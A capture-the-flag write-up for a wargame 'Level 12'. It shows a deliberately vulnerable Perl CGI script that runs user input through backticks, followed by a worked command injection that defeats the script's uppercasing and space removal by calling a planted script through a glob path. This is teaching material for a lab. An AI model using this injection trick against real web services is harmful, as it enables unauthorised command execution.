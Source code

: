 ## LEVEL 12

---

This level is similar to the previous level except that now the server is `.pl` file.

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

I can see a shell command executed so I can use a command injection to run `getflag`.

The only problem of this level is those two lines :
```
$xx =~ tr/a-z/A-Z/;
$xx =~ s/\s.*//;
```

Because before to execute the command, the perl program removes every spaces from the variable and changes every lowercases to uppercases.

So I cannot just write : ```curl 'localhost:4646?x=`getflag > > /tmp/flag`&y=empty'```. Instead I must create a shell script then run it inside the perl executable.

```shell
$ vi /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
$ export PATH=/tmp:$PATH
$ curl 'localhost:4646?x=`GETFLAG`&y=empty'
$ cat /tmp/flag
cat: /tmp/flag: No such file or directory
```

This does not work because the env variable has been set only for me not for the server.

```shell
$ vi /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
$ curl 'localhost:4646?x=`/*/GETFLAG`&y=empty'
$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
